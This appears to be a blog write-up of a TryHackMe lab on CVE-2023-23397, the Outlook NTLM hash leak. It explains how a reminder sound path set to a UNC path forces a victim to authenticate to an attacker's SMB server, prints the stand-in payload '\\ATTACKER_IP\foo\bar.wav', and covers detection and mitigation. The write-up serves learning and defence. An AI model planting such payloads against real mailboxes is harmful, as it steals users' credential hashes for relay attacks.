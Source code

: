 ```yaml
---
layout: post
title: "Outlook NTLM Leak"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","CVE-2023-23397"
---
```


## CVE-2023-23397
Tool used: **Responder**

**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*

### Exploit
The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
\\ATTACKER_IP\foo\bar.wav
```

#### Script: to be added

### Mitigation & Detection

**Sigma rules** can be used to detect a connection to a WebDav or SMB share, or detects svchost.exe spawning rundll32.exe both indicates a a post-exploitation but the latter detects exfiltration phase.**Yara Rules** used for pattern identification within the files on a disk to detect the suspcisous MSG file on the disk. In response to the attack, Microsoft released a **Powershell script** that can check the exchange messaging items like Mail, Calendar, and tasks to see if the IOC is present.

**Mitigation**:
- Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
- Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
- Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
- Disable WebClient service to avoid webdav connection.
